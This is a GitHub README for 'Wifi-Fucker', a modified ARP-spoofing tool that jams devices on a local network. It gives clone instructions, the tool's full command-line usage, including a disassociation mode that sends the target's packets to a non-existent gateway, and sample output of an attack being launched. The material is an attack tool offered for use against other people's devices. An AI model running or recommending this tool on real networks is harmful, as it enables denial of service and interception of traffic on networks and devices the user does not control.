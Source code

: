# Wifi-Fucker
Jamming wifi devices using ARP spoofing.
## Installation

 1. Clone this repository
 ``
 git clone https://github.com/exeeeeeeeeeeee/Wifi-Fucker.git
 ``
 
 2. Just follow the instructions for use.
 ## Usage
 ```
wifi-fucker.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
               [--targetmac MAC] [--gateip IP] [--interval TIME] [-d]
               TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
```
## Example
```
~$ sudo python3 arpspoof.py {target ip}

[>>>] ARP Spoofing configuration:
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
## License
This project is licensed under the terms of the GNU Affero General Public License (AGPL) version 3 or later. See the [LICENSE](./LICENSE) file for details.
## Copyright
This project is based on the original work by [EONRaider](https://github.com/EONRaider) 
Modified by [exeeeeeeeeeeee](https://github.com/exeeeeeeeeeeee).
